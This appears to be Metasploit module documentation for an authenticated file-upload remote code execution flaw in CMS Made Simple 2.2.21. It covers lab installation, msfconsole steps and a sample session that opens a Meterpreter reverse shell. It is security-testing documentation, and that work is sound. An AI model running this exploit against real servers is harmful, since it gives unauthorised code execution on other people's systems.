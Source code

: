 ## Vulnerable Application

CMS Made Simple <= v2.2.21 allows an authenticated administrator to upload files
with the `.phar` or `.phtml` extensions, enabling execution of PHP code
leading to RCE. The file can be executed by accessing its URL in the
/uploads/ directory.

## Installation

### Kali Linux 2024.3

Install PHP dependencies:
```
sudo apt install -y php-gd php-mbstring php-intl php-xml php-curl php-zip
```

Start mariadb and apache:
```
sudo systemctl start apache2
sudo systemctl start mariadb
```

Connect to the database:
```
sudo mysql -u root -p
```

Create a database user `msfuser` and a database named `cmsms`:
```
CREATE USER 'msfuser'@'localhost' IDENTIFIED BY 'msfpass';
CREATE DATABASE cmsms;
GRANT ALL PRIVILEGES on cmsms.* TO 'msfuser'@'localhost';
FLUSH PRIVILEGES;
EXIT;
```

Download CMSMadeSimple, extract it and move it to `/var/www/html`:
```
wget https://s3.amazonaws.com/cmsms/downloads/15179/cmsms-2.2.21-install.zip
unzip cmsms-2.2.21-install.zip                
sudo mv cmsms-2.2.21-install.php /var/www/html
```

Set the necessary permissions:
```
sudo chmod 755 -R /var/www/html/
sudo chown www-data:www-data -R /var/www/html/
```

The application should be now available at `http://localhost/cmsms-2.2.21-install.php/`,
navigate there in a browser to complete the setup wizard.
On the tests page, `Testing if we can change INI settings` warning can be ignored.
It will ask you for the database credentials created above, input them and enter `cmsms` for database name.

Once complete, go to `http://localhost/admin/login.php`, you should see an admin login panel.

## Verification Steps

1. Install CMSMadeSimple
2. Start msfconsole
3. Do: `use exploit/multi/http/cmsms_file_manager_auth_rce`
4. Do: `set RHOST [IP]`
5. Do: `set username [username]`
6. Do: `set password [password]`
7. Do: `run`
8. You should get a shell.

## Options

### USERNAME
The username for the CMSMS admin panel. Default is empty string

### PASSWORD
The password for the CMSMS admin panel. Default is empty string

## Scenarios

### CMSMadeSimple v2.2.21 on Kali Linux 2024.3

```
msf6 > use exploit/multi/http/cmsms_file_manager_auth_rce 
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/cmsms_file_manager_auth_rce) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf6 exploit(multi/http/cmsms_file_manager_auth_rce) > set username admin
username => admin
msf6 exploit(multi/http/cmsms_file_manager_auth_rce) > set password password
password => password
msf6 exploit(multi/http/cmsms_file_manager_auth_rce) > run
[*] Started reverse TCP handler on 192.168.232.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending stage (40004 bytes) to 192.168.232.128
[*] Meterpreter session 1 opened (192.168.232.128:4444 -> 192.168.232.128:42794) at 2025-03-22 02:53:16 -0400

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : kali
OS          : Linux kali 6.8.11-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.8.11-1kali2 (2024-05-30) x86_64
Meterpreter : php/linux
meterpreter >
```
